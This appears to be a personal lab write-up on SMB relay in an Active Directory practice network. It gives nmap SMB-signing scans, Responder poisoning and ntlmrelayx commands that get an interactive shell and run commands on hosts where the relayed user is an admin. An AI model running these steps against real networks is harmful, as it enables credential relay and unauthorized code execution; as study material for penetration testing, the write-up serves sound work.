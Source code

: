 
Domain 
```
192.168.17.139
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```
![[Pasted image 20240120125323.png]]
Always try to -Pn in the end cuz something it will not show the host even there are the host or something the ping might be blocked.

We can also swipe the whole network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```
![[Pasted image 20240120125838.png]]

<hr>

Now the attack begins will change the conf file of responder



Will make a target list with the fcastle and pparker id address
```
Fcastle
192.168.17.140

Pparker
192.168.17.142
```


![[Pasted image 20240120130349.png]]
![[Pasted image 20240120130432.png]]

Command to run
```
sudo responder -I eth0 -dwPv 
```
![[Pasted image 20240120130552.png]]

Now we have to setup the NTLM relay

```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support
```


Will trigger the event
```
\\192.168.17.136
```
![[Pasted image 20240120131350.png]]

For a little twist i first try to relay with Peter Parker machine but failed in it but but but 
when i tried with fcastle i was able to get the relay as it is local admin on both the machine


![[Pasted image 20240120131959.png]]

```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```
![[Pasted image 20240120151006.png]]

![[Pasted image 20240120150947.png]]

If we want to test if we are able to run a command or not
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -c "whoami"
```


